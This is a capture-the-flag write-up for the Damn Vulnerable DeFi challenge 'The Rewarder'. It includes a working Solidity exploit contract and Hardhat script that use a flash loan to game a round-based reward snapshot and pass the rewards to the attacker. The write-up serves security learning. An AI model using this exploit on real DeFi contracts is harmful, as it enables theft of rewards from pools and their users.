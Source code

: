 # Level 5 : The Rewarder

This one was for me a hard one.I think for this kind of case , the first thing to is to take a blank paper and try to understand how each functions interacts with each others in contracts.

Reading the description , one thing we had to do was to retrieve rewards, from that I tried to search the vulnerability on TheRewarderPool.sol and I was lucky enough to find something to test.

**Rewards are distributed by round (big mistake)** and as with simple javascript command we can set the time we want , so that we can be at the beginning of each round.

From that the first idea that came to my mind was to try to borrow all amount available on the FlashLoanerPool, implement on our contract the `function receiveFlashLoan(uint256 amount) external{}` and set up our hack execution within it.

To hack these contracts we have to do 6 things :  

1. Increase time to 5 days
2. Do a flashLoan with maximum amount available
3. Deposit the flash loan amount in the rewarder pool to trigger rewards distribution
4. Withdraw deposit
5. Pay Back the flashLoan
6. Send rewards to the attacker

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./AccountingToken.sol";
import "./FlashLoanerPool.sol";
import "./RewardToken.sol";
import "./TheRewarderPool.sol";
contract ExploitRewarder {
    FlashLoanerPool private flashLoanerPool;
    TheRewarderPool private theRewarderPool;
    RewardToken private rewardToken;
    DamnValuableToken private dvt;
    address private attacker;
    uint256 maxAmount;
    constructor(address _flashLoanerPool,address _theRewarderPool,address _rewardToken,address _dvt,uint256 amount){
      attacker=msg.sender;
      flashLoanerPool=FlashLoanerPool(_flashLoanerPool);
      theRewarderPool = TheRewarderPool(_theRewarderPool);
      rewardToken = RewardToken(_rewardToken);
      dvt = DamnValuableToken(_dvt);
      maxAmount = amount;
    }
    function attack() public {
      flashLoanerPool.flashLoan(maxAmount); // 1. Take Out a flashLoan
    }
    function receiveFlashLoan(uint256 amount) external{
      dvt.approve(address(theRewarderPool),amount);
      theRewarderPool.deposit(amount); // 2. Deposit the flash loan amount in the rewarder pool to trigger rewards distribution
      theRewarderPool.withdraw(amount); // 3. Withdraw deposit
      dvt.transfer(address(flashLoanerPool),amount); // 4. Pay back the flash Loan
      rewardToken.transfer(attacker,rewardToken.balanceOf(address(this))); // Send rewards to the attacker
    }
}
```

```jsx
await ethers.provider.send("evm_increaseTime",[5*24*60*60]);
const Attacker = await ethers.getContractFactory('ExploitRewarder', attacker)
this.attackerContract = await Attacker.deploy(this.flashLoanPool.address,this.rewarderPool.address,this.rewardToken.address,this.liquidityToken.address,TOKENS_IN_LENDER_POOL);
await this.attackerContract.connect(attacker).attack();
```

## Key Security Takeaways

- Implement rewards for money that stay in your pool in seconds, not using rounds : [https://solidity-by-example.org/defi/staking-rewards/](https://solidity-by-example.org/defi/staking-rewards/)